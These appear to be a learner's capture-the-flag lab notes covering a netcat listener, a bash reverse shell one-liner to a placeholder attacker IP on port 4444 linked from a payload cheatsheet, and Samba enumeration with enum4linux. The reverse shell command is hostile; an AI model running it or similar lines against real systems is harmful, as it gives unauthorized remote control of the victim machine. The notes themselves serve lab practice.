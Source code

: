 Netcat:

    nc -lvnp 4444

Reverse Shell:

[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp)

    bash -i >& /dev/tcp/<My-IP>/4444 0>&1

cat flag.txt

##Day-10

Samba

two protocols:

- SMB (Server Message Block) - Natively supported by Windows and not Linux
- NFS (Network File System) - Natively supported by Linux and not Windows

Scan Samba:

enum4linux:

enum4linux -h

![](../img/2020-12-21_10-49-27.png)

enum4linux -U <IP>

![](../img/2020-12-21_10-51-49.png)
